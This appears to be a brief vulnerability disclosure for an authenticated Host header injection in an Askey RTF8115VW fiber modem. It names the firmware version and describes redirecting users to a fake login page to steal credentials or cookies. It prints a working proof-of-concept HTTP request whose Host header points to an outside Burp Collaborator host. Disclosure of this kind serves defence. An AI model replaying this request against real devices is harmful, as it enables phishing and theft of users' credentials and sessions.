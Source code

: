 INFO
----

    **Authenticated Host Header Injection - Askey Internet Fiber Modem**

    Vendor: **Askey**
    Software Version: **BR_SV_g11.11_RTF_TEF001_V6.54_V014**
    Model: **RTF8115VW**
    Vulnerable Header: **Host**
    Not tested in other model/version.

    Impact: An attacker could take advantege on that vulnerability to redirect user to a fake Login page in order to extract his credentials, or cookies.

    The Final Request
    ```
    GET / HTTP/1.1
    Host: kay4tb35bh55y38n8h4teim21t7jv8.burpcollaborator.net
    Cookie: _httpdSessionId_=7924107467ea5838a196b65306ca7236
    Upgrade-Insecure-Requests: 1
    Referer: http://x.x.x.x/cgi-bin/te_logout.cgi
    Accept: */*
    Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
    Connection: close
    Cache-Control: max-age=0
    Accept-Encoding: gzip, deflate
    ```





    ![Alt text](/hostHeaderInjection.jpg?raw=true "Optional Title")
